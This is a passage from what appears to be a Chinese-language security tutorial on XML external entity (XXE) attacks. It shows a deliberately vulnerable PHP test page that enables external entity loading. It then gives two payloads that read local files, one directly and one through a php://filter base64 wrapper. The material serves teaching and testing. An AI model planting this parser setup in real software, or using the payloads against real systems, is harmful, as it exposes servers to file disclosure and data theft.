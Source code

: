# 有回显获取数据
``` php
<head><meta charset=utf-8><title>xxe测试</title></head><body><form action='' method='post'>xml数据:<br><textarea type="text" name="data"></textarea><br><input type='submit' value='提交' name='sub'></form></body>

<?php
libxml_disable_entity_loader(false);
date_default_timezone_set("PRC");
if(!empty($_POST['sub'])){ $data= $_POST['data'];
$dom = new DOMDocument();
$dom->loadXML($data, LIBXML_NOENT | LIBXML_DTDLOAD); 
$answer = simplexml_import_dom($dom);
print($answer); }
?>
```
我们以上面的代码为例进行测试,需要注意的是,PHP在libxml>2.9.0时默认关闭了外部实体解析,因此需要加入一句:
``` php
libxml_disable_entity_loader(false);
```
来开启外部实体解析。(libxml版本可以在phpinfo界面查看)  
我们可以构建payload：
``` xml
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///C:/xxe.txt">]><login>&xxe;</login>
```
可以看到，成功获取数据.
![](/blog_img/xxe2.png)
由于我们这个文件不含有特殊字符，所以读取相当顺利，但是如果我们读取的文件含有<,>之类的字符，就会出现解析错误,这时候如果是在PHP下,我们可以采取将其转换成base64编码的形式来成功解析。  
构建payload:
```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE note[<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=D:/xxe.txt">]><login>&xxe;</login>
```
可以看到，成功得到base64编码后的结果。  